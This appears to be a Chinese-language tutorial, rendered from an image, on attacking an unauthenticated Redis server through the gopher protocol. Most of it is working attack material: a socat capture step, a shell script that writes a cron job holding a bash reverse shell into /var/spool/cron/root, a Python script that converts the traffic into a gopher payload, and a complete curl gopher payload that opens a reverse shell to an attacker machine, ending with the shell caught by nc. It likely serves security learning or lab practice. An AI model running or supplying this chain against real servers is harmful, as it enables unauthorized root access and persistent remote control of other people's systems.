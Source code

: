 可以利用gopher协议传输redis的数据报文，达到类似之前对redis的连接、设置、存储操作

抓取数据报文
在靶机中利用socat抓取发往redis的数据报文

socat -v tcp-listen:4444,fork tcp-connect:localhost:6379
在攻击机中连接靶机的4444端口，重新发送攻击payload

这里先将要执行的命令写入了shell.sh中，方便一次性执行完毕
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
然后在把靶机中执行

./shell.sh 192.168.85.132 4444
返回五个OK就表示执行成功了

利用gopher进行攻击
然后将数据转换成gopher协议的格式
#coding: utf-8
import sys

exp = ''

with open(sys.argv[1]) as f:
    for line in f.readlines():
        if line[0] in '><+':
            continue
        elif line[-3:-1] == r'\r':
            if len(line) == 3:
                exp = exp + '%0a%0d%0a'
            else:
                line = line.replace(r'\r', '%0d%0a')
                line = line.replace('\n', '')
                exp = exp + line
        elif line == '\x0a':
            exp = exp + '%0a'
        else:
            line = line.replace('\n', '')
            exp = exp + line
print exp


然后在本地先监听23333端口

再利用curl发送payload
curl -v 'gopher://192.168.85.132:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$67%0d%0a-e %0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.85.128/23333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
等待一会，就能看到nc接到了反弹回来的shell
